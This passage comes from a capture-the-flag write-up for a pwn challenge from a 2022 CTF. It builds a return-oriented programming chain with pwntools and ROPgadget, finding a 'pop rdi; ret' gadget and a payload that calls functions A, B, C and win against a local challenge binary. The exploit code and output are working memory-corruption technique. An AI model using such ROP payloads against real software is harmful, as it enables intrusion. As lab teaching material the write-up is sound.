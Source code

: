 ```py
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming': pid 2184956
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming' stopped with exit code -11 (SIGSEGV) (pid 2184956)
uwu owo rawrxd
uwu
owo
oh nyo youw e-expwoit has faiwed *sweats*
[*] Got EOF while reading in interactive
```

We successfully called `B` and satisfied its condition.

Lastly, we need to call `C`.
However, `C` takes one argument, `secwet`, and compares it against 0xdeadbeef.

The calling convention specifies that the first result is passed through the RDI register.
To set registers, we can use rop gadgets.
These are short segments of executable code which end with a `ret` instruction.

Let's find a rop gadget that pops RDI from the stack:

Using ROPgadget:

```
$ ROPgadget --binary wetuwn-owiented-pwogwamming | grep "pop rdi"
0x00000000004013c3 : pop rdi ; ret
```

Using pwntools:

```py
>>> rop = ROP(exe)
[*] Loaded 14 cached gadgets for 'wetuwn-owiented-pwogwamming'
>>> rop.find_gadget(['pop rdi', 'ret'])[0]
4199363
>>> hex(_)
'0x4013c3'
```

This gadget will pop the next value of the stack into RDI.
If we add this to our ropchain, then add 0xdeadbeef, the RDI register will be set correctly for `C`.

Our payload becomes:

```py
payload = flat({ 0x78: [
    p64(exe.sym['A']),
    p64(exe.sym['B']),
    p64(rop.find_gadget(['pop rdi', 'ret'])[0]),
    p64(0xdeadbeef),
    p64(exe.sym['C']),
    p64(exe.sym['win']),
]})
```
